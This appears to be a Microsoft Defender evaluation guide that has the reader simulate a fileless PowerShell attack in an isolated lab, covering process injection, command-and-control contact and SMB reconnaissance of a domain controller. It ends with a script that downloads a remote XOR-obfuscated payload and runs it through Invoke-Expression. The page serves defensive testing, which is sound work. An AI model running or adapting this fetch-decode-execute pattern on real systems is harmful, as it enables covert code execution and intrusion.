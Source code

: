 Here is the result.

:::image type="content" source="../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png" alt-text="The evaluation environment using the simulated enterprise Test Lab Guide" lightbox="../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png":::

You'll simulate a sophisticated attack that leverages advanced techniques to hide from detection. The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices. This category of attacks usually doesn't include files dropped on the victim's device and they occur solely in memory. They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution. Such behavior allows them to evade detection and persist on the device.

In this simulation, our sample scenario starts with a PowerShell script. In the real world, a user might be tricked into running a script or the script might run from a remote connection to another computer from a previously infected device, which indicates that the attacker is attempting to move laterally in the network. Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.

:::image type="content" source="../../media/mtp/mtpdiydiagram.png" alt-text="The Fileless PowerShell attack with process injection and SMB reconnaisance attack" lightbox="../../media/mtp/mtpdiydiagram.png":::

During the simulation, the attack injects shellcode into a seemingly innocent process. The scenario requires the use of notepad.exe. We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe. The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed. The script attempts executing reconnaissance queries against the domain controller (DC). Reconnaissance allows an attacker to get information about recent user login information. Once attackers have this information, they can move laterally in the network to get to a specific sensitive account

> [!IMPORTANT]
> For optimum results, follow the attack simulation instructions as closely as possible.

### Run the isolated AD DS domain controller attack simulation

To run the attack scenario simulation:

1. Ensure that your pilot environment includes the isolated AD DS domain controller and Windows device.

2. Sign in to the test device with the test user account.

3. Open a Windows PowerShell window on the test device.

4. Copy the following simulation script:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
   ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
   $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
